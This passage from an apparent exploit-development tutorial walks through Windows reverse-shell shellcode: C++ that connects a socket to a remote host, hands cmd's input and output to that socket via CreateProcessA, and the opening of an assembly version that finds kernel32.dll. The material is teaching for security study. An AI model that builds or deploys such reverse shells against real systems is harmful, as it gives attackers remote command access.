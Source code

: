 We store the returned value, which is a file descriptor (`int`) to our newly created socket. 

### Connect
[This function](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect) establishes a connection to a specific socket. The second argument is a pointer to a `sockaddr` structure, so let's create that first. 
```c++
struct sockaddr_in sa;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(rem_host.c_str());
sa.sin_port = htons(rem_port);
```

Our struct is called `sa`. The `sin_family` member is `AF_INET` again. The `s_addr` member of the `sin_addr` struct is set to our remote host. (We have to include the `.c_str()` function because we initialized the `rem_host` variable as an `std::string` and the `inet_addr` function only accepts proper C char arrays. Finally, we use `htons()` to translate our `rem_port` variable into the `sin_port` member of the struct. 

Only other thing I want to point out here is that we typecast the pointer to our `sockaddr_in` struct to `sockaddr`, with `(struct sockaddr*) &sa`, as that's what's expected by the `connect` function. 

### CreateProcessA
At this point, we've already connected to the remote host, now it's time to send a command shell to the "server" application. We've covered the `CreateProcessA` [function](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) pretty in-depth previously. I just want to point out a few things that we'll be doing in the shellcode that differs from our previous examples. 

In order to have the command shell streams redirected to our connection, we need to initialize several members of the `STARTUPINFORMATION` structure. We typecast our socket file descriptor (`mysocket`) as a `HANDLE` and assign it to: `hStdInput`, `hStdOutput`, `hStdError`. We just now have to set `dwFlags` to `STARTF_USESTDHANDLES` which has a great name that tells you exactly what we're doing here. We're using the standard i/o handles, which we just set. `STARTF_USESTDHANDLES` specifies in the MSDN documentation that the *"handles must be inheritable and the function's bInheritHandles parameter must be set to TRUE."*

So we're poised to push our command shell and redirect standard i/o to it as long as we handle the actual `CreateProcessA` arguments appropriately now. 

`CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);`

As you can see, we have a `BOOL` value in our arguments that's set to `TRUE`. This is the aforementioned `bInheritHandles` parameter and we've set it appropriately to complete our prototype. Everything else in `CreateProcessA` is similar to what we've already done. 

## Assembly Time
Now the fun part. I'll skip all of the pieces we've already completed over and over. 

### Getting `kernel32.dll` Base Address

```nasm
global_start


section .text
_start: 

xor ecx, ecx
mul ecx
mov eax, [fs:ecx + 0x30] 
mov eax, [eax + 0xc]     
mov esi, [eax + 0x14]    
lodsd                    
xchg eax, esi            
```